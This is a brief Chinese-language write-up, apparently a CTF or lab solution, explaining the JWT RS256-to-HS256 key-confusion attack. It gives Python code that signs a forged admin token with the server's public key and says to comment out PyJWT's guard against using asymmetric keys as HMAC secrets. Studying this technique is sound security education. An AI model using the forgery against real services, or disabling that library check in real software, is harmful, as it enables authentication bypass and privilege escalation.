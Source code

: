 **解题思路**

将publickey.pem下载到本地

```py
import jwt
key = open('publickey.pem','r').read()
data = {"username":"admin","password":"123456","role":"admin"}
print(jwt.encode(data, key=key, algorithm='HS256'))
```



- 这里会报错，需要将algorithms.py第150行的一段如下注释掉。

```py
if any([string_value in key for string_value in invalid_strings]):
            raise InvalidKeyError(
                'The specified key is an asymmetric key or x509 certificate and'
                ' should not be used as an HMAC secret.')
```

```bash
pip3 install pyjwt
python3 hs256.py
```

![](./img/jwt10.png)

**Resources**
- [非对称加密流程原理](https://www.jianshu.com/p/d0a89c18f1f7?utm_campaign)
- [RS256->HS256](http://www.ghtwf01.cn/index.php/archives/1108/#menu_index_9)
